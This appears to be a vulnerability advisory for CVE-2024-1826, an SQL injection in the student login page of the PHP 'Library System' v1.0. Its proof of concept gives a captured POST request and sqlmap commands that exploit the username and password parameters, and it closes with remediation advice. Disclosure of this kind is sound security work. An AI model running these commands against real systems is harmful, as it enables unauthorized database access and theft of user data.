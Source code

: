 # Library System In PHP - SQL Injection (Student Login)

### CVE Assigned:
**[CVE-2024-1826](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-1826)** [mitre.org](https://www.cve.org/CVERecord?id=CVE-2024-1826) [nvd.nist.org](https://nvd.nist.gov/vuln/detail/CVE-2024-1826)


### Vendor Homepage:

> https://code-projects.org/

### Software Link:

> [Library System In PHP](https://code-projects.org/library-system-in-php-with-source-code/)

### Version:

> v 1.0

### SQL Injection:

> SQL injection is a type of security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. Usually, it involves the insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system, and in some cases, issue commands to the operating system.

### Affected Components:

> /Lms/Source/librarian/user/student/login.php

> Two parameters `username` and `password` within student login are vulnerable to SQL Injection.


![username](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3Library%20System%20In%20PHP-Sqli-student_login_username.png)

![password](https://github.com/jxp98/VulResearch/blob/main/2024/02/img/3Library%20System%20In%20PHP-Sqli-student_login_password.png)

### Description:

> The presence of SQL Injection in the application enables attackers to issue direct queries to the database through specially crafted requests.

## Proof of Concept:

### SQLMap

Save the following request to `studentlogin.txt`:

```
POST /Lms/Source/librarian/user/student/login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://172.16.8.56/Lms/Source/librarian/user/index.php
Cookie: PHPSESSID=4nq5is5jf875uo0a4v5nohv7s7
Content-Length: 87
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Host: 172.16.8.56
Connection: Keep-alive

login=Login&password=-1&username=TYYHyRvY
```

Use `sqlmap` with `-r` option to exploit the vulnerability:

```
sqlmap -r studentlogin.txt --batch --dbms MYSQL --is-dba -p username
```
```
sqlmap -r studentlogin.txt --batch --dbms MYSQL --is-dba -p password
```


## Recommendations

When using this Library System In PHP, it is essential to update the application code to ensure user input sanitization and proper restrictions for special characters.
